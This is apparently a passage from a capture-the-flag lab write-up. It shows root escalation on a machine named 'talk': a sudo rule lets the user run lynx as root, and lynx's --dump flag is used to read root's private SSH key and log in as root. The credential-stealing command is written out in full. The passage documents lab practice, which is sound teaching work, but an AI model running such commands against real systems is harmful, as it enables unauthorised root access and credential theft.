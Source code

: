 ```bash

User nona may run the following commands on talk:
    (ALL : ALL) NOPASSWD: /usr/bin/lynx
nona@talk:~$ /usr/bin/lynx --help | grep dump
                    outputs for -source dumps
  -core             toggles forced core dumps on fatal errors (off)
                    with -dump, format output as with -traversal, but to stdout
  -dont_wrap_pre    inhibit wrapping of text in <pre> when -dumping and
  -dump             dump the first file to stdout and exit
  -list_inline      with -dump, forces it to show links inline with text (off)
  -listonly         with -dump, forces it to show only the list of links (off)
  -mime_header      include mime headers and force source dump
  -nolist           disable the link list feature in dumps (off)
  -nonumbers        disable the link/form numbering feature in dumps (off)
  -source           dump the source of the first file to stdout and exit
  -stack_dump       disable SIGINT cleanup handler (off)
  -stderr           write warning messages to standard error when -dump
  -underscore       toggles use of _underline_ format in dumps (off)
  -unique_urls      toggles use of unique-urls setting for -dump and -listonly options (off)
  -width=NUMBER     screen width for formatting of dumps (default is 80)
  -with_backspaces  emit backspaces in output if -dumping or -crawling
nona@talk:~$ 

```
{: .nolineno}

For root privilege I have to execute lynx cli browser command to make it to root so I try to find a way to read some files through it like this `--dump` flag 🔻


```bash
sudo -u root /usr/bin/lynx --dump /root/.ssh/id_rsa
```
{: .nolineno}

I got the private key lets have a root shell now 🔻

![](Pasted%20image%2020250628225400.png)

kindly not that the key should have 600 permission of making it usable like this `chmod 600 id_rsa_root` 🔻

```bash
└─$ ssh -i id_rsa_root root@10.0.2.24                           
Linux talk 4.19.0-14-amd64 #1 SMP Debian 4.19.171-2 (2021-01-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Feb 18 04:34:23 2021
root@talk:~# ls
flag.sh  root.txt
root@talk:~# ./flag.sh 
\033[0;35m
                                   .     **                                     
                                *           *.                                  
                                              ,*                                
                                                 *,                             
                         ,                         ,*                           
                      .,                              *,                        
                    /                                    *                      
                 ,*                                        *,                   
               /.                                            .*.                
```